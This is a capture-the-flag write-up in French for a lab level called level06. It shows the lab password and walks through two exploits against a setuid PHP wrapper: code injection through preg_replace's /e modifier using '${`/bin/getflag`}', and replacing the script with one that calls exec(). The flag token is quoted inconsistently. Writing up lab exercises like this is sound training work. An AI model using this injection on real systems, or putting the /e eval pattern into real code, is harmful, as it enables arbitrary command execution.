 # LEVEL 06

**LOGIN: level06**

**PASSWORD: viuaaale9huek52boumoomioc**

 ----
 
 
 ```
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Ici j'ai trouvé deux exploits, le premier avec le code php, le deuxieme dans le binaire c: 

#### Premier exploit
``` 
cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```


ARVG2 n est jamais utilisé
La fonction y() ne sert a rien car elle est appelé ici :  `"y(\"\\2\")"` et y a pas de `.` ni de `@`.
Seulement le premier appelle à `preg_replace` dans `x()` nous intérrese. 
On peut donc resumer le code comme ceci :
```
function x($y) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "\"\\2\"", $a); return $a; }
$r = x($argv[1]); print $r;
```
L'exploit se trouve dans l'option `e` de `preg_replace`.
*[ e doesn't just execute anything you pass to it. It only executes those parts of the input that match the regex and are then used in the replacement via back references.](https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation)*

```
echo '[x ${`/bin/getflag`} ]' > exploit.txt
chmod 777 exploit.txt
./level06 exploit.txt
Check flag.Here is your token : wiok45aaoguiboiki2tuin6
```

#### Deuxieme exploit

Le binaire `level06` est un code en C. un strace nous montre qu'il appelle le script php : 

`execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 27 vars */]) = 0`

exploit : 
```
rm level06.php
vim level06.php
#!/usr/bin/php
<?php
exec("/bin/getflag > /tmp/exploit");
?>
exit.

./level06 file1 file2
cat /tmp/exploit
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

**TOKEN: wiok45aaoguiboiki2tuin6ub
